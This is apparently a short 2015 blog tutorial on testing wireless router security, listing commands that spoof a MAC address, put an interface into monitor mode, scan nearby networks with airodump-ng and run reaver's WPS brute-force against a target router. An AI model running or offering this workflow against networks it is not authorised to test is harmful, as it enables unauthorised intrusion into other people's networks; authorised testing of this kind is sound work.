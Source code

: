 ```yaml
---
categories: ["Technology"]
comments: true
date: 2015-04-28T00:00:00Z
title: Use reave for testing wireless security
url: /2015/04/28/use-reave-for-testing-wireless-security/
---
```


For those who want to test the wireless security(Wireless Router), following is a serial of tools for automatically scan the WIFI and try to find the entrance to inner network.    
### Preparation
Install following packages:    

```
$ sudo apt-get install macchanger  aircrack-ng reaver

```
### Testing 
Suppose the wireless port in our equipment is mlan0, following are the detailed steps:     

```
# macchanger -m 00:11:22:33:44:55 mlan0
# airmon-ng start mlan0
# ifconfig mlan0mon down
# macchanger -m 00:11:22:33:44:55 mlan0mon
# ifconfig mlan0mon up
# airodump-ng mlan0mon
# reaver -i mlan0mon -b xx:xx:xx:xx:xx -vv -dh-small

```

